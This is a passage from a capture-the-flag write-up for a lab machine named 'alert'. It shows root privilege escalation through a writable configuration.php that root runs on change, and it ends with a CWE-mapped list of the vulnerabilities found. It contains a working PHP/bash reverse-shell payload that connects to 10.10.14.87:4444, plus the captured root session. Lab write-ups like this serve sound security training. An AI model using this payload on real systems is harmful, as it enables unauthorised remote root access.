Nmap done: 1 IP address (1 host up) scanned in 21.32 seconds
```

We can view the page now that the ports are forwarded:


### File Permission Analysis

Found writable directories and files:
```bash
albert@alert:/opt/website-monitor$ ls -lah monitors
total 24K
drwxrwxrwx 2 root root 4.0K Oct 12 01:07 .
drwxrwxr-x 7 root root 4.0K Oct 12 01:07 ..
-rw-r--r-x 1 root root 5.5K Dec 17 22:01 alert.htb
-rw-r--r-x 1 root root 5.5K Dec 17 22:01 statistics.alert.htb
```

Noticed interesting processes running as root:
```bash
root        1009  0.0  0.0   2636   728 ?        S    03:44   0:00 inotifywait -m -e modify --format %w%f %e /opt/website-monitor/config
```

Using `pspy` to monitor process execution revealed:
```
2024/12/18 05:20:49 CMD: UID=0     PID=28998  | /usr/bin/php -f /opt/website-monitor/config/configuration.php
2024/12/18 05:20:49 CMD: UID=0     PID=28999  | /usr/bin/cp /root/scripts/config/configuration.php /opt/website-monitor/config/
```

### Root Exploitation

Discovered that the `configuration.php` file:
1. Was being executed as root when modified
2. Was being reset after execution

Created a PHP reverse shell and placed it in `configuration.php`:
```php
<?php
system("bash -c 'bash -i >& /dev/tcp/10.10.14.87/4444 0>&1'");
?>
```

Started a netcat listener:
```bash
❯ ncat -l 10.10.14.87 -nvp 4444
```

Successfully received a shell as root and obtained the root flag:
```shell
❯ rev
Password:
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on 10.10.14.87:4444
Ncat: Connection from 10.129.190.140:45714.
Linux alert 5.4.0-200-generic #220-Ubuntu SMP Fri Sep 27 13:19:16 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 04:54:08 up  1:10,  2 users,  load average: 0.00, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
albert   pts/0    10.10.14.87      03:45    5.00s  0.11s  0.11s -bash
albert   pts/1    10.10.14.87      03:52   10:36   0.26s  0.26s -bash
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cat /root/root.txt
9cfec44f73c3ba1023d3--snip--
```

## Vulnerabilities Identified

1. **Stored Cross-Site Scripting (XSS)**
   - Markdown content rendered with insufficient sanitization
   - CWE-79: Improper Neutralization of Input During Web Page Generation

2. **Path Traversal**
   - `messages.php` allowed access to files outside intended directory
   - CWE-22: Improper Limitation of a Pathname to a Restricted Directory

3. **Insecure Authentication Storage**
   - Apache htpasswd file with weak hash algorithm (md5)
   - CWE-916: Use of Password Hash With Insufficient Computational Effort

4. **Insecure File Permissions**
   - Writable directories and configuration files
   - CWE-732: Incorrect Permission Assignment for Critical Resource

5. **Insecure Root Execution**
   - Configuration file executed as root after modification
   - CWE-250: Execution with Unnecessary Privileges

## Tools Used

- Nmap
- Feroxbuster
- Hashcat
- Custom XSS payloads
- pspy
- Netcat

## References
- [CWE-79: Improper Neutralization of Input During Web Page Generation](https://cwe.mitre.org/data/definitions/79.html)
- [CWE-22: Improper Limitation of a Pathname to a Restricted Directory](https://cwe.mitre.org/data/definitions/22.html)
- [CWE-916: Use of Password Hash With Insufficient Computational Effort](https://cwe.mitre.org/data/definitions/916.html)
- [CWE-732: Incorrect Permission Assignment for Critical Resource](https://cwe.mitre.org/data/definitions/732.html)
- [CWE-250: Execution with Unnecessary Privileges](https://cwe.mitre.org/data/definitions/250.html)